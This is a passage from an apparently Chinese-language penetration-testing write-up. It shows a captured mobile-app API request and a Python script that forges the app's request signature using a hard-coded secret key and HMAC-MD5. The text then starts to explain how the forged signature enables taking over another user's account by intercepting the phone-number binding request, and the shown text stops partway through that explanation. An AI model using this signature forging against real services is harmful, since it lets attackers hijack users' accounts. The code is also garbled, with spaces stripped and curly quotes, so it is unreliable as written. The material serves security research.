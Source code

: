 ```
Os_type:
Key: B272F43387B8504C
Sign: 03E03380485A6FE4BA9FFFD0AE555C42
Device_id:
Content-Type: application/x-www-form-urlencoded
App_type:
Timestamp: 1719387015597
Connection: close
decryptData=lGtijwxxxxxxxxxxxxwxxxxxxxxxxxxwxxxxxxxxxxxxwxxxxxxxxxxxxwxxxxxxxxxxxxwxxxxxxxxxxxxWYPYgR6HiHFQmMYV0uOQ%3D%3D&sessionKey=sRfHDswxxxxxxxxxxxx%3D%3D&iv=RpwxxxxxxxxxxxxzPQyTA%3D%3D
“””
params = request_data.split(‘\n’)
formatted_output = {“key”: “B272F43387B8504C”}
foriteminparams:
ifitem.startswith(‘Timestamp: ‘):
timestamp_value = item.split(‘Timestamp: ‘)[1]
formatted_output[‘timestamp’] = timestamp_value
timestamp = timestamp_value
datas = params[-2]
params_list = datas.split(‘&’)
forparaminparams_list:
key, value = param.split(‘=’, 1)
value = urllib.parse.unquote(value)
formatted_output[key] = value
str1 = []
forkey, valueinformatted_output.items():
str1.append(key+value)
sorted_str1 = sorted(str1, key=lambdas: s[0])
str2 = “”
forvainsorted_str1[::-1]:
str2 += va
str2 += “70BAE8B491362AB39042B77C7653199D”
mac = hmac.new(key=timestamp.encode(), msg=str2.encode(),digestmod=hashlib.md5)
mac.digest()
str_encode = mac.hexdigest().upper()
print(str_encode)
```  
  
  
这里给出数据包，就自动提取参数，然后加密。  
## 再次挖掘  
### 用户接管漏洞  
  
现在sign有了，我们最开始的任意用户绑定登录就可以拿下了。使用两个账号，实现一个正常用户登录，另一个攻击者来接管这个账号。  
  
正常用户注册登录如下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/0JJXjA8siccyvYibsibaPByKPEqYKa1O1srrar2Z4pwZCicEDeXibdonSvZ0supfE0apWBlyYicBicydicqKpq7hbkJhfA/640?wx_fmt=png&from=appmsg "")  
  
攻击者在获取手机号的时候截取数据包。  
  
